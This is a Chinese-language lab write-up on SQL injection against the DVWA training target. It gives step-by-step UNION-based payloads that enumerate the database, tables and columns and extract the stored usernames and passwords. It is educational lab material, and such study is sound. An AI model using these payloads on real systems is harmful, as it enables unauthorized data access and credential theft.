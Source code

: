 文档主要内容：\
1.漏洞原理（SQL注入流程）。\
2.复现步骤（截图 + Payload）。\
3.修复建议（参数化查询、WAF规则）。
# SQL 注入
原理：用户输入的数据被 SQL 解释器执行 \
流程：(https://jcna7zyrtyi7.feishu.cn/wiki/BM4jwwztXiykvZk1C6QcmLJNnlg#share-BUvEdPUxwoM51xx3W3FcNOkVnkd)
# 复现步骤
靶场：dvwa\
工具：burpsuite community,浏览器，sqlmap\
在登陆 dvwa 时进行抓包：可以看到 POST 方法中传到服务器的有 username 和 password\
[图片]\
行注释：--，#：省略注释后面的部分，不必担心输入\
内联注释：/*...*/
## SQL Injection-low
正常提交 payload=1:\
[图片]\
Union 注入（通过使用 UNION 关键字，将两个或多个查询结果合并为一个结果集）：\
注入点判断，是数字注入还是字符串注入：\
输入 1 and 1=1#正常输出\
[图片]\
输入 1 and 1=2#，依旧正常输出：\
[图片]\
总结：不是数字注入，因为没有产生异常\
输入 1’and1=2#（这里输入的’是中文符号，应该输入英文符号，则不输出）\
[图片]\
输入 1'and1=1#:\
[图片]\
总结存在字符注入，且为单引号闭合，猜测 sql 语句：\
Select ID,First name,Surname,\
from　．．．, \
ｗhere ID='input()';\
字段判断：输入 1' order by 2#-->对查询结果按指第二列排序，如果指定的列号超过实际字段数，则报错，否则正常输出\
[图片]\
输入 1’order by 3#，报错，则每一行有两个字段，First name 按字段输出\
获取数据库名，使用 UNION 连接其他语句，例如：\
1' union select 1,database() from information_schema.schemata#\
[图片]\
假设实际的执行语句为：\
SELECT   id, first_name, last_name\
   FROM users\
   WHERE id = '1' \
   UNION \
   SELECT 1,database(), #1是占位符，匹配原查询的列数，比如：原查询返回三列，并且返回当前的数据库名称\
   FROM information_schema.schemata -- ';#该表存储所有数据库的元信息\
结果进行了填充默认值，导致First name显示1，surname显示dvwa\
#获取表名：\
1' union select 1，table_name from information_schema.tables where table_schema='dvwa'#\
[图片]\
该 dvwa 库有两个表：guestbook，users\
获取 users 表的列名：输入 1' union select* from users#（行不通，因为 union 要求前面查询和后面查询返回列数一致，可能 users 表的返回列数大于三，若用户没有访问 users 表的权限，则更加行不通了）\
#获取列名\
1' union select column_name, column_name from information_schema.columns where table_name='users'and table_schema='dvwa'#\
[图片]\
#获取 user，和 password :\
1' union select user， password from users#\